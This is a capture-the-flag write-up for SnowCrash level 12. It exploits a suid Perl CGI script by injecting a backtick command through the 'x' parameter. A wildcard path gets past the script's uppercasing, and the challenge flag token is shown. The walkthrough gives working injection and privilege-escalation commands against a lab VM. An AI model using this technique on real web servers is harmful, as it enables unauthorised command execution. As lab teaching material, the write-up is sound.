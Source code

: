 # LEVEL 12

In our home directory, we see a perl script with suid/guid bit and extended permissions:
    >$ ls -l
    total 4
    -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl

let's understand what the script does:
    >$ cat level12.pl
    #!/usr/bin/env perl
    # localhost:4646
    use CGI qw{param};
    print "Content-type: text/html\n\n";

    sub t {
      $nn = $_[1];
      $xx = $_[0];
      $xx =~ tr/a-z/A-Z/;
      $xx =~ s/\s.*//;
      @output = `egrep "^$xx" /tmp/xd 2>&1`;
      foreach $line (@output) {
          ($f, $s) = split(/:/, $line);
          if($s =~ $nn) {
              return 1;
          }
      }
      return 0;
    }

    sub n {
      if($_[0] == 1) {
          print("..");
      } else {
          print(".");
      }
    }

    n(t(param("x"), param("y")));

This web page takes 2 parameters:`x` and` y`.

- `x` Passes into 2 regex, one to pass all characters to `upper case`, and another to make sure the argument must start with whitespaces characters and be followed by characters, then is used to execute the `egrep` command.

- `y` won't help us.

`egrep` is a command that will search for a pattern in folders that match that pattern.

Let's start by creating a script to run the `getflag` command in a file:

    >$ `echo "getflag > /tmp/test" > /tmp/EXPLOIT`

Then let's do the following test, replacing `/tmp` with `*` so that we don't have to worry about regex:
    >$ curl '{VM_IP}:4646?x="`/*/EXPLOIT`"'
    ..level12@SnowCrash:~$ cat /tmp/test
    cat: /tmp/test: No such file or directory

Our test file was not created, so the command did not work. And after running the script directly we can see this:
    >$ ./level12.pl x="`/*/EXPLOIT`"
    -bash: /tmp/EXPLOIT: Permission denied
    Content-type: text/html

    ..level12@SnowCrash:~$

We then just need to change the permissions of `EXPLOIT` with a chmod. If we run the commands again we can see that it works:
    >$ chmod 777 /tmp/EXPLOIT
    >$ curl '{VM_IP}:4646?x="`/*/EXPLOIT`"'
    ..level12@SnowCrash:~$ cat /tmp/test
    Check flag.here is your token : g1qKMiRpXf53AWhDaU7FEkczr

Vulnerability:
Privilege escalation via CGI code injection 